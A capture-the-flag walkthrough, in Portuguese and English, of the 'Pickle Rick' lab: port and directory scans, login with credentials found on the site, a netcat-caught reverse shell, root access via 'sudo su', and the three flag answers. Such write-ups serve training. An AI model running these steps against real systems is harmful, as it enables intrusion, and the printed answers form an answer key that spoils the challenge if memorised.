

# Pickle Rick

## Active Machine Information
### Title: Pickle Rick
### IP Address: 10.10.47.193

## Answer the questions below

1. What is the first ingredient that Rick needs?(Qual é o primeiro ingrediente que Rick precisa?)

* Buscando Portas Abertas 
```bash
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $nmap -sV 10.10.47.193
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-23 21:48 -03
Nmap scan report for 10.10.47.193
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.10 seconds
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```

* Verrificando Aplicacao Web


<center><span style="color: green">
Username: R1ckRul3s
</span></center>

```bash
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $dirb http://10.10.47.193/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr 23 21:54:28 2023
URL_BASE: http://10.10.47.193/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.47.193/ ----
==> DIRECTORY: http://10.10.47.193/assets/                                                                    
+ http://10.10.47.193/index.html (CODE:200|SIZE:1062)                                                         
+ http://10.10.47.193/robots.txt (CODE:200|SIZE:17)                                                           
+ http://10.10.47.193/server-status (CODE:403|SIZE:301)                                                       
                                                                                                               
---- Entering directory: http://10.10.47.193/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Apr 23 22:12:57 2023
DOWNLOADED: 4612 - FOUND: 3
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```

<center><span style="color: green">
Wubbalubbadubdub
</span></center>
 
* Testando Usuario e Possivel Senha no SSH 
```bash
┌─[✗]─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $ssh R1ckRul3s@10.10.47.193
The authenticity of host '10.10.47.193 (10.10.47.193)' can't be established.
ECDSA key fingerprint is SHA256:iTS1ttQ07y7kXvmoSzzZQSGGemb8AG42DpRlYA2NAAY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.47.193' (ECDSA) to the list of known hosts.
R1ckRul3s@10.10.47.193: Permission denied (publickey).
┌─[✗]─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```

```bash
┌─[✗]─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $gobuster dir -u http://10.10.47.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.47.193/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,css,js,php,txt
[+] Timeout:                 10s
===============================================================
2023/04/23 22:10:49 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.47.193/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
Progress: 24852 / 1323366 (1.88%)                                                [ERROR] 2023/04/23 22:20:46 [!] Get "http://10.10.47.193/581.txt": context deadline exceeded (Client.Timeout exceeded while awaiting headers)                   
===============================================================
2023/04/23 22:23:23 Finished
===============================================================
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```

* Testando Usuario e Possivel Senha no login.php 


* Tentando ler arquivo com o painel de executar comando no servidor backend e system 


<center><span style="color: green">
Resposta então é <u><b>mr. meeseek hair</b></u></span></center>

---

2. What is the second ingredient in Rick’s potion?(Qual é o segundo ingrediente da poção de Rick?)

* Reverse Shell(https://www.revshells.com/) in python3


```bash
┌─[patrick@parrot]─[~]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.110.213] from (UNKNOWN) [10.10.47.193] 60564
$ ls
ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
$ cd ..
cd ..
$ ls
ls
html
$ pwd
pwd
/var/www
$ cd /home 	
cd /home
$ ls
ls
rick  ubuntu
$ cd rick	     
cd rick
$ ls
ls
second ingredients
$ cat 'second ingredients'
cat 'second ingredients'
1 jerry tear
$ 
```

<center><span style="color: green">
Resposta então é <u><b>1 jerry tear</b></u>
</span></center>


---

3. What is the last and final ingredient?(Qual é o último e último ingrediente?)

```bash
$ 
$ pwd
pwd
/home/rick
$ cd ..
cd ..
$ ls
ls
rick  ubuntu
$ cd ubuntu	
cd ubuntu
$ ls 
ls
$ cd /root	
cd /root
sh: 22: cd: can't cd to /root
$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-47-193.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-47-193.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
$ sudo su
sudo su
root@ip-10-10-47-193:/home/ubuntu# cd /root
cd /root
root@ip-10-10-47-193:~# ls
ls
3rd.txt  snap
root@ip-10-10-47-193:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-47-193:~# 
```

<center><span style="color: green">
Resposta então é <u><b>fleeb juice</b></u>
</span></center>